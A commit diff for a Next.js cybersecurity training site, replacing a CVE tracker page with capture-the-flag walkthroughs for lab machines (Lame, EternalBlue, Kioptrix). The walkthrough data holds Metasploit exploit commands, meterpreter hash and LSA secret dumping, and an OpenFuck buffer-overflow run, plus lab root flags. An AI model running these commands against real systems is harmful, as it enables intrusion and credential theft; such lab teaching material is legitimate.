

Before and after one commit to ninadcyber88-max/cybermatrix-academy, a Next.js app: page /walkthroughs in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
fix: replace

```diff
--- a/app/walkthroughs/page.tsx
+++ b/app/walkthroughs/page.tsx
@@ -4,99 +4,136 @@
 import Link from 'next/link';
 import {
   Search,
-  Filter,
-  Radio,
   Copy,
   Check,
-  ShieldCheck
+  Filter
 } from 'lucide-react';
 import { CyberSmokeHeader } from '@/components/CyberSmokeHeader';
 
-interface CVEItem {
-  id: string;
-  cveId: string;
+interface WalkthroughStep {
+  phase: string;
   title: string;
-  severity: 'CRITICAL' | 'HIGH' | 'MEDIUM';
-  cvssScore: number;
-  publishDate: string;
-  affectedSoftware: string;
-  vector: string;
-  pocStatus: 'PUBLIC_POC' | 'IN_THE_WILD' | 'PATCHED_ONLY';
   description: string;
-  mitigation: string;
-  references: string[];
+  command?: string;
+  findings?: string[];
 }
 
-const CVE_DATABASE: CVEItem[] = [
+interface MachineWalkthrough {
+  id: string;
+  title: string;
+  platform: 'HackTheBox' | 'TryHackMe' | 'VulnHub' | 'CyberMatrix';
+  os: 'Linux' | 'Windows';
+  difficulty: 'EASY' | 'MEDIUM' | 'HARD' | 'INSANE';
+  ip: string;
+  points: number;
+  author: string;
+  summary: string;
+  tags: string[];
+  steps: WalkthroughStep[];
+  rootFlag: string;
+}
+
+const WALKTHROUGHS_DATA: MachineWalkthrough[] = [
   {
-    id: 'cve-1',
-    cveId: 'CVE-2026-2184',
-    title: 'Linux Kernel eBPF Subsystem Privilege Escalation',
-    severity: 'CRITICAL',
-    cvssScore: 9.8,
-    publishDate: '2026-08-18',
-    affectedSoftware: 'Linux Kernel >= 5.15 & < 6.9',
-    vector: 'CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H',
-    pocStatus: 'IN_THE_WILD',
-    description: 'Improper bounds checking in the eBPF bytecode verifier allows local unprivileged users to achieve out-of-bounds kernel memory write and root execution.',
-    mitigation: 'Upgrade kernel packages to version 6.9.12 or apply sysctl setting `kernel.unprivileged_bpf_disabled=1`.',
-    references: ['https://nvd.nist.gov', 'https://github.com/torvalds/linux']
+    id: 'htb-lame',
+    title: 'LAME - Samba Symlink & Distcc Exploitation',
+    platform: 'HackTheBox',
+    os: 'Linux',
+    difficulty: 'EASY',
+    ip: '10.10.10.3',
+    points: 20,
+    author: 'Ninad Pawar',
+    summary: 'A classic beginner machine demonstrating vulnerable Samba 3.0.20 username map script execution and unauthenticated Distcc RCE.',
+    tags: ['Samba', 'Distcc', 'Metasploit', 'CVE-2007-2447'],
+    rootFlag: 'HTB{s4mb4_3xpl01t_r00t_0wn3d}',
+    steps: [
+      {
+        phase: '01. RECONNAISSANCE',
+        title: 'Initial Port Scan & Service Fingerprinting',
+        description: 'Perform a comprehensive TCP port scan using Nmap to identify running services and version numbers.',
+        command: 'nmap -sC -sV -p- -T4 10.10.10.3',
+        findings: [
+          'Port 21: vsftpd 2.3.4 (Anonymous FTP allowed)',
+          'Port 22: OpenSSH 4.7p1 Debian 8ubuntu1',
+          'Port 139/445: Samba 3.0.20-Debian'
+        ]
       },
       {
-    id: 'cve-2',
-    cveId: 'CVE-2026-3091',
-    title: 'OpenSSH Pre-Auth Remote Code Execution (regreSSHion v2)',
-    severity: 'CRITICAL',
-    cvssScore: 9.6,
-    publishDate: '2026-08-10',
-    affectedSoftware: 'OpenSSH 8.5p1 through 9.7p1 on glibc-based systems',
-    vector: 'CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H',
-    pocStatus: 'PUBLIC_POC',
-    description: 'Signal handler race condition in sshd allows unauthenticated remote attackers to execute arbitrary code with root privileges.',
-    mitigation: 'Update OpenSSH to 9.8p1 or set `LoginGraceTime 0` in sshd_config as a temporary workaround.',
-    references: ['https://www.openssh.com/security.html', 'https://nvd.nist.gov']
+        phase: '02. VULNERABILITY ANALYSIS',
+        title: 'Identifying Samba CVE-2007-2447 Command Injection',
+        description: 'Samba version 3.0.20 is vulnerable to arbitrary command execution via MS-RPC shell metacharacters in username parameters.',
+        command: 'use exploit/multi/samba/usermap_script\nset RHOSTS 10.10.10.3\nset LHOST 10.10.14.2\nexploit'
       },
       {
-    id: 'cve-3',
-    cveId: 'CVE-2026-1402',
-    title: 'Apache HTTP Server Path Traversal & Source Disclosure',
-    severity: 'HIGH',
-    cvssScore: 8.4,
-    publishDate: '2026-07-28',
-    affectedSoftware: 'Apache HTTP Server 2.4.50 through 2.4.58',
-    vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N',
-    pocStatus: 'PUBLIC_POC',
-    description: 'Flaw in URI path normalization logic enables remote attackers to map URLs to files outside the document root and disclose source scripts.',
-    mitigation: 'Upgrade to Apache HTTP Server 2.4.59 or later. Verify that `Require all denied` is enforced on root directives.',
-    references: ['https://httpd.apache.org/security/vulnerabilities_24.html']
+        phase: '03. EXPLOITATION & ROOT FOOTHOLD',
+        title: 'Executing Payload & Capturing Root Flag',
+        description: 'Once executed, the Samba daemon drops an interactive root shell without requiring privilege escalation.',
+        command: 'cat /root/root.txt',
+        findings: ['Root shell obtained with uid=0(root) gid=0(root)']
+      }
+    ]
   },
   {
-    id: 'cve-4',
-    cveId: 'CVE-2026-0925',
-    title: 'Spring Framework SpEL Injection Remote Code Execution',
-    severity: 'HIGH',
-    cvssScore: 8.8,
-    publishDate: '2026-06-14',
-    affectedSoftware: 'Spring Framework 6.0.0 - 6.1.4',
-    vector: 'CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H',
-    pocStatus: 'PATCHED_ONLY',
-    description: 'Unsanitized input evaluation via Spring Expression Language (SpEL) parser leads to arbitrary remote command execution in authenticated context.',
-    mitigation: 'Upgrade Spring Framework dependencies to 6.1.5 or apply strict SimpleEvaluationContext filters.',
-    references: ['https://spring.io/security/cve']
+    id: 'thm-eternalblue',
+    title: 'ETERNALBLUE - MS17-010 Kernel Exploitation',
+    platform: 'TryHackMe',
+    os: 'Windows',
+    difficulty: 'EASY',
+    ip: '10.10.185.74',
+    points: 25,
+    author: 'Ninad Pawar',
+    summary: 'Exploiting SMBv1 memory corruption vulnerability (MS17-010 / DoublePulsar) to gain NT AUTHORITY\\SYSTEM access on Windows 7/Server 2008.',
+    tags: ['MS17-010', 'EternalBlue', 'SMBv1', 'Mimikatz'],
+    rootFlag: 'THM{ms17_010_pwn3d_syst3m_p0w3r}',
+    steps: [
+      {
+        phase: '01. RECONNAISSANCE',
+        title: 'Scanning SMB Service Vulnerabilities',
+        description: 'Use Nmap NSE scripts to confirm the target is vulnerable to MS17-010.',
+        command: 'nmap -p 445 --script smb-vuln-ms17-010 10.10.185.74',
+        findings: ['Host is VULNERABLE to Remote Code Execution vulnerability (MS17-010)']
       },
       {
-    id: 'cve-5',
-    cveId: 'CVE-2026-0418',
-    title: 'Windows Active Directory Kerberos PAC Validation Spoofing',
-    severity: 'MEDIUM',
-    cvssScore: 6.8,
-    publishDate: '2026-05-22',
-    affectedSoftware: 'Windows Server 2019, 2022, 2025',
-    vector: 'CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:N',
-    pocStatus: 'PATCHED_ONLY',
-    description: 'Privilege escalation vulnerability in Kerberos Key Distribution Center (KDC) allows domain users to forge PAC signatures during ticket granting.',
-    mitigation: 'Deploy Microsoft Security Update KB5036893 and enforce PAC signature validation across all Domain Controllers.',
-    references: ['https://msrc.microsoft.com']
+        phase: '02. EXPLOITATION',
+        title: 'Launching EternalBlue Payload via Metasploit',
+        description: 'Configure the exploit module and target architecture to spawn Meterpreter shell.',
+        command: 'use exploit/windows/smb/ms17_010_eternalblue\nset RHOSTS 10.10.185.74\nrun'
+      },
+      {
+        phase: '03. POST EXPLOITATION',
+        title: 'Dumping LSA Secrets & Harvesting Hashes',
+        description: 'Migrate to a stable x64 process (lsass.exe) and dump password hashes using Mimikatz.',
+        command: 'meterpreter > hashdump\nmeterpreter > load kiwi\nmeterpreter > lsadump'
+      }
+    ]
+  },
+  {
+    id: 'htb-kioptrix',
+    title: 'KIOPTRIX v1 - OpenSSL & Mod_SSL Exploitation',
+    platform: 'VulnHub',
+    os: 'Linux',
+    difficulty: 'MEDIUM',
+    ip: '192.168.1.105',
+    points: 35,
+    author: 'Ninad Pawar',
+    summary: 'Classic Linux OSCP-like box involving Apache mod_ssl buffer overflow (OpenFuck) and trans2open Samba exploit.',
+    tags: ['Apache', 'OpenSSL', 'Mod_SSL', 'Buffer Overflow'],
+    rootFlag: 'VULNHUB{k10ptr1x_v1_r00t_m4st3r}',
+    steps: [
+      {
+        phase: '01. RECONNAISSANCE',
+        title: 'Service Enumeration & Apache SSL Version Check',
+        description: 'Enumerate web daemon extensions and mod_ssl versions.',
+        command: 'nmap -sV -p 80,443,139 192.168.1.105',
+        findings: ['Apache 1.3.20 (Unix) mod_ssl/2.8.4 OpenSSL/0.9.6b']
+      },
+      {
+        phase: '02. EXPLOITATION',
+        title: 'Compiling & Executing OpenFuck Buffer Overflow',
+        description: 'Compile legacy OpenFuck.c C source code against OpenSSL header files.',
+        command: 'gcc -o openfuck OpenFuck.c -lcrypto\n./openfuck 0x6b 192.168.1.105 443 -c 40'
+      }
+    ]
   }
 ];
 
@@ -108,24 +145,25 @@
   { name: 'CERTIFICATE', href: '/certificate' }
 ];
 
-export default function CVETrackerPage() {
+export default function WalkthroughsPage() {
   const [searchQuery, setSearchQuery] = useState('');
-  const [severityFilter, setSeverityFilter] = useState<string>('ALL');
-  const [copiedCve, setCopiedCve] = useState<string | null>(null);
+  const [selectedDifficulty, setSelectedDifficulty] = useState<string>('ALL');
+  const [selectedWalkthrough, setSelectedWalkthrough] = useState<MachineWalkthrough | null>(WALKTHROUGHS_DATA[0]);
+  const [copiedCode, setCopiedCode] = useState<string | null>(null);
 
   const handleCopy = (text: string) => {
     navigator.clipboard.writeText(text);
-    setCopiedCve(text);
-    setTimeout(() => setCopiedCve(null), 2000);
+    setCopiedCode(text);
+    setTimeout(() => setCopiedCode(null), 2000);
   };
 
-  const filteredCVEs = CVE_DATABASE.filter((c) => {
+  const filteredWalkthroughs = WALKTHROUGHS_DATA.filter((w) => {
     const matchesSearch =
-      c.cveId.toLowerCase().includes(searchQuery.toLowerCase()) ||
-      c.title.toLowerCase().includes(searchQuery.toLowerCase()) ||
-      c.affectedSoftware.toLowerCase().includes(searchQuery.toLowerCase());
-    const matchesSeverity = severityFilter === 'ALL' || c.severity === severityFilter;
-    return matchesSearch && matchesSeverity;
+      w.title.toLowerCase().includes(searchQuery.toLowerCase()) ||
+      w.tags.some((t) => t.toLowerCase().includes(searchQuery.toLowerCase())) ||
+      w.platform.toLowerCase().includes(searchQuery.toLowerCase());
+    const matchesDiff = selectedDifficulty === 'ALL' || w.difficulty === selectedDifficulty;
+    return matchesSearch && matchesDiff;
   });
 
   return (
@@ -141,7 +179,7 @@
 
             <div className="flex items-center space-x-4 sm:space-x-8 text-xs font-mono tracking-wider font-bold overflow-x-auto no-scrollbar">
               {NAV_BUTTONS.map((btn) => {
-                const isActive = btn.name === 'CVE';
+                const isActive = btn.name === 'WALKTHROUGH';
                 return (
                   <Link
                     key={btn.name}
@@ -168,13 +206,13 @@
                   type="text"
                   value={searchQuery}
                   onChange={(e) => setSearchQuery(e.target.value)}
-                  placeholder="SEARCH_CVE_DATABASE..."
+                  placeholder="SEARCH_WALKTHROUGHS..."
                   className="w-full pl-9 pr-3 py-1.5 bg-[#171e30] border border-zinc-700/60 rounded-md text-xs font-mono text-zinc-200 placeholder-zinc-500 focus:outline-none focus:border-[#38bdf8] transition"
                 />
               </div>
               <button
                 className="p-2 rounded-md bg-[#171e30] border border-zinc-700/60 text-zinc-400 hover:text-[#38bdf8] transition hover:border-[#38bdf8]/40 cursor-pointer"
-                title="Filter Matrix"
+                title="Filter Walkthroughs"
               >
                 <Filter className="w-3.5 h-3.5" />
               </button>
@@ -183,123 +221,188 @@
           </div>
         </div>
 
-        {/* 3. Hero Header & Severity Filter Pills */}
-        <div className="max-w-7xl mx-auto px-4 md:px-8 pt-8 pb-4">
-          <div className="flex flex-col md:flex-row items-start md:items-center justify-between gap-4 p-6 rounded-2xl bg-[#0f1524] border border-zinc-800">
-            <div>
-              <div className="flex items-center space-x-2 text-rose-400 text-xs font-mono font-bold uppercase mb-1">
-                <Radio className="w-3.5 h-3.5 animate-pulse" />
-                <span>LIVE VULNERABILITY INTELLIGENCE FEED</span>
-              </div>
-              <h1 className="text-2xl sm:text-3xl font-black text-white">
-                Real-Time CVE Intelligence Tracker
-              </h1>
-              <p className="text-xs sm:text-sm text-zinc-400 mt-1 max-w-2xl">
-                Track critical security vulnerabilities, zero-days, exploit payloads in the wild, and official remediation advisories verified by CyberMatrix Academy.
-              </p>
-            </div>
+        {/* 3. Main Workspace */}
+        <main className="max-w-7xl mx-auto px-4 md:px-8 py-8 flex flex-col lg:flex-row gap-8">
 
-            <div className="flex items-center space-x-1.5 bg-[#0a0e18] border border-zinc-800 p-1.5 rounded-xl font-mono text-xs">
-              {['ALL', 'CRITICAL', 'HIGH', 'MEDIUM'].map((sev) => (
+          {/* Target List Sidebar */}
+          <aside className="w-full lg:w-96 shrink-0 space-y-4">
+
+            <div className="flex items-center justify-between pb-2 border-b border-zinc-800">
+              <span className="text-xs font-mono font-bold text-zinc-400">
+                TARGET MACHINES ({filteredWalkthroughs.length})
+              </span>
+
+              <div className="flex items-center space-x-1">
+                {['ALL', 'EASY', 'MEDIUM'].map((diff) => (
                   <button
-                  key={sev}
-                  onClick={() => setSeverityFilter(sev)}
-                  className={`px-3 py-1 rounded-lg font-bold transition ${
-                    severityFilter === sev
-                      ? 'bg-[#38bdf8] text-black shadow-[0_0_10px_rgba(56,189,248,0.4)]'
-                      : 'text-zinc-400 hover:text-white'
+                    key={diff}
+                    onClick={() => setSelectedDifficulty(diff)}
+                    className={`px-2 py-0.5 rounded text-[10px] font-mono font-bold transition ${
+                      selectedDifficulty === diff
+                        ? 'bg-[#38bdf8] text-black'
+                        : 'bg-zinc-800 text-zinc-400 hover:text-white'
                     }`}
                   >
-                  {sev}
+                    {diff}
                   </button>
                 ))}
               </div>
             </div>
-        </div>
 
-        {/* 4. CVE Feed List */}
-        <main className="max-w-7xl mx-auto px-4 md:px-8 py-6 pb-16 space-y-4">
-          {filteredCVEs.map((cve) => (
+            <div className="space-y-3">
+              {filteredWalkthroughs.map((item) => {
+                const isSelected = selectedWalkthrough?.id === item.id;
+
+                return (
                   <div
-              key={cve.id}
-              className="p-6 rounded-2xl bg-[#0f1524] border border-zinc-800 hover:border-[#38bdf8]/40 transition-all duration-300 shadow-md space-y-4"
+                    key={item.id}
+                    onClick={() => setSelectedWalkthrough(item)}
+                    className={`p-4 rounded-xl border transition-all cursor-pointer ${
+                      isSelected
+                        ? 'bg-[#101726] border-[#38bdf8] shadow-[0_0_20px_rgba(56,189,248,0.15)]'
+                        : 'bg-[#0f1524] border-zinc-800 hover:border-zinc-700'
+                    }`}
                   >
-              <div className="flex flex-col sm:flex-row sm:items-center justify-between gap-3 pb-3 border-b border-zinc-800">
-                <div className="flex items-center space-x-3">
-                  <button
-                    onClick={() => handleCopy(cve.cveId)}
-                    className="flex items-center space-x-1.5 px-3 py-1 rounded-lg bg-zinc-950 border border-zinc-700 text-cyan-300 font-mono font-black text-xs hover:border-cyan-400 transition cursor-pointer"
-                    title="Copy CVE ID"
-                  >
-                    <span>{cve.cveId}</span>
-                    {copiedCve === cve.cveId ? (
-                      <Check className="w-3.5 h-3.5 text-emerald-400" />
-                    ) : (
-                      <Copy className="w-3.5 h-3.5 text-zinc-500" />
-                    )}
-                  </button>
-
-                  <span className={`text-[10px] font-mono font-black px-2.5 py-0.5 rounded border ${
-                    cve.severity === 'CRITICAL'
-                      ? 'text-rose-400 bg-rose-500/10 border-rose-500/30'
-                      : cve.severity === 'HIGH'
-                      ? 'text-amber-400 bg-amber-500/10 border-amber-500/30'
-                      : 'text-blue-400 bg-blue-500/10 border-blue-500/30'
+                    <div className="flex items-center justify-between mb-2">
+                      <span className="px-2 py-0.5 rounded bg-zinc-950 border border-zinc-700 text-[10px] font-mono font-bold text-cyan-300">
+                        {item.platform}
+                      </span>
+                      <span className={`text-[10px] font-mono font-bold px-2 py-0.5 rounded ${
+                        item.difficulty === 'EASY'
+                          ? 'text-emerald-400 bg-emerald-500/10 border border-emerald-500/20'
+                          : 'text-amber-400 bg-amber-500/10 border border-amber-500/20'
                       }`}>
-                    CVSS {cve.cvssScore} // {cve.severity}
-                  </span>
-
-                  <span className={`text-[9.5px] font-mono px-2 py-0.5 rounded ${
-                    cve.pocStatus === 'IN_THE_WILD'
-                      ? 'text-red-400 bg-red-950/60 border border-red-800 animate-pulse'
-                      : cve.pocStatus === 'PUBLIC_POC'
-                      ? 'text-amber-400 bg-amber-950/40 border border-amber-800'
-                      : 'text-emerald-400 bg-emerald-950/40 border border-emerald-800'
-                  }`}>
-                    {cve.pocStatus.replace(/_/g, ' ')}
+                        {item.difficulty}
                       </span>
                     </div>
 
-                <span className="text-[11px] font-mono text-zinc-500">
-                  PUBLISHED: {cve.publishDate}
+                    <h3 className="text-sm font-bold text-white mb-1 line-clamp-1">
+                      {item.title}
+                    </h3>
+
+                    <p className="text-xs text-zinc-400 line-clamp-2 mb-3">
+                      {item.summary}
+                    </p>
+
+                    <div className="flex flex-wrap gap-1">
+                      {item.tags.map((tag) => (
+                        <span key={tag} className="text-[9.5px] font-mono px-1.5 py-0.5 rounded bg-zinc-950 text-zinc-500 border border-zinc-800">
+                          #{tag}
+                        </span>
+                      ))}
+                    </div>
+                  </div>
+                );
+              })}
+            </div>
+
+          </aside>
+
+          {/* Walkthrough Guide Details */}
+          {selectedWalkthrough && (
+            <section className="flex-1 rounded-2xl bg-[#0f1524] border border-zinc-800 p-6 space-y-6">
+
+              <div className="pb-6 border-b border-zinc-800">
+                <div className="flex items-center justify-between gap-2 mb-3">
+                  <div className="flex items-center space-x-2">
+                    <span className="px-2.5 py-1 rounded bg-cyan-500/10 border border-cyan-400/40 text-cyan-300 text-xs font-mono font-bold">
+                      {selectedWalkthrough.platform}
+                    </span>
+                    <span className="px-2.5 py-1 rounded bg-zinc-900 border border-zinc-700 text-zinc-300 text-xs font-mono font-bold">
+                      OS: {selectedWalkthrough.os}
+                    </span>
+                    <span className="px-2.5 py-1 rounded bg-zinc-900 border border-zinc-700 text-zinc-300 text-xs font-mono font-bold">
+                      IP: {selectedWalkthrough.ip}
                     </span>
                   </div>
 
-              <div>
-                <h3 className="text-base sm:text-lg font-bold text-white mb-1.5">
-                  {cve.title}
-                </h3>
-                <p className="text-xs text-zinc-300 leading-relaxed">
-                  {cve.description}
+                  <div className="text-xs font-mono text-[#38bdf8] font-bold">
+                    +{selectedWalkthrough.points} PTS
+                  </div>
+                </div>
+
+                <h1 className="text-2xl font-black text-white">
+                  {selectedWalkthrough.title}
+                </h1>
+
+                <p className="text-xs text-zinc-400 mt-2 font-mono">
+                  Architected by: <span className="text-cyan-300 font-bold">{selectedWalkthrough.author}</span> // Lead Security Architect
                 </p>
               </div>
 
-              <div className="grid grid-cols-1 md:grid-cols-2 gap-3 text-xs font-mono">
-                <div className="p-3 rounded-xl bg-[#141b2c] border border-zinc-800/80">
-                  <span className="text-zinc-500 block text-[10px] font-bold">AFFECTED SYSTEMS / PACKAGES:</span>
-                  <span className="text-rose-300 font-semibold">{cve.affectedSoftware}</span>
+              <div className="space-y-6">
+                {selectedWalkthrough.steps.map((step, idx) => (
+                  <div key={idx} className="p-5 rounded-xl bg-[#141b2c] border border-zinc-800/80 space-y-3">
+
+                    <span className="text-xs font-mono font-bold text-[#38bdf8] tracking-wider block">
+                      {step.phase}
+                    </span>
+
+                    <h3 className="text-base font-bold text-white">
+                      {step.title}
+                    </h3>
+
+                    <p className="text-xs text-zinc-300 leading-relaxed">
+                      {step.description}
+                    </p>
+
+                    {step.findings && (
+                      <div className="my-2 space-y-1">
+                        {step.findings.map((f, fIdx) => (
+                          <div key={fIdx} className="text-xs font-mono text-emerald-400 flex items-center space-x-2">
+                            <span>▸</span>
+                            <span>{f}</span>
                           </div>
+                        ))}
+                      </div>
+                    )}
 
-                <div className="p-3 rounded-xl bg-[#141b2c] border border-zinc-800/80">
-                  <span className="text-zinc-500 block text-[10px] font-bold">CVSS VECTOR STRING:</span>
-                  <span className="text-zinc-300 truncate block">{cve.vector}</span>
+                    {step.command && (
+                      <div className="relative mt-3 rounded-lg bg-black border border-zinc-800 p-3 font-mono text-xs text-cyan-300">
+                        <button
+                          onClick={() => handleCopy(step.command!)}
+                          className="absolute right-2.5 top-2.5 p-1 rounded bg-zinc-900 hover:bg-zinc-800 text-zinc-400 hover:text-white transition"
+                          title="Copy Command"
+                        >
+                          {copiedCode === step.command ? (
+                            <Check className="w-3.5 h-3.5 text-emerald-400" />
+                          ) : (
+                            <Copy className="w-3.5 h-3.5" />
+                          )}
+                        </button>
+                        <pre className="whitespace-pre-wrap pr-8">{step.command}</pre>
                       </div>
-              </div>
-
-              <div className="p-3.5 rounded-xl bg-emerald-950/20 border border-emerald-500/30 flex items-start space-x-2.5 text-xs font-mono">
-                <ShieldCheck className="w-4 h-4 text-emerald-400 shrink-0 mt-0.5" />
-                <div>
-                  <span className="text-emerald-400 font-bold block">OFFICIAL MITIGATION / REMEDIATION:</span>
-                  <span className="text-zinc-300">{cve.mitigation}</span>
-                </div>
-              </div>
+                    )}
 
                   </div>
                 ))}
+              </div>
+
+              {/* Root Flag Box */}
+              <div className="p-4 rounded-xl bg-gradient-to-r from-emerald-950/40 via-zinc-900 to-zinc-950 border border-emerald-500/40 flex items-center justify-between font-mono">
+                <div>
+                  <p className="text-[10px] text-emerald-400 font-bold uppercase tracking-wider">
+                    PROOF OF OWNERSHIP (ROOT FLAG):
+                  </p>
+                  <p className="text-sm font-black text-white mt-0.5">
+                    {selectedWalkthrough.rootFlag}
+                  </p>
+                </div>
+                <button
+                  onClick={() => handleCopy(selectedWalkthrough.rootFlag)}
+                  className="px-3 py-1.5 rounded-lg bg-emerald-500 hover:bg-emerald-400 text-black font-bold text-xs transition"
+                >
+                  COPY FLAG
+                </button>
+              </div>
+
+            </section>
+          )}
+
         </main>
       </div>
 
-      {/* 5. Footer */}
+      {/* 4. Footer */}
       <footer className="border-t border-zinc-800/60 bg-[#0d121e] py-8 text-center text-xs font-mono text-zinc-500">
         CYBERMATRIX ACADEMY // ARCHITECTED BY NINAD PAWAR // DEFENSE MATRIX ACTIVE
       </footer>
```
Lines whose indentation alone changed are shown as unchanged.
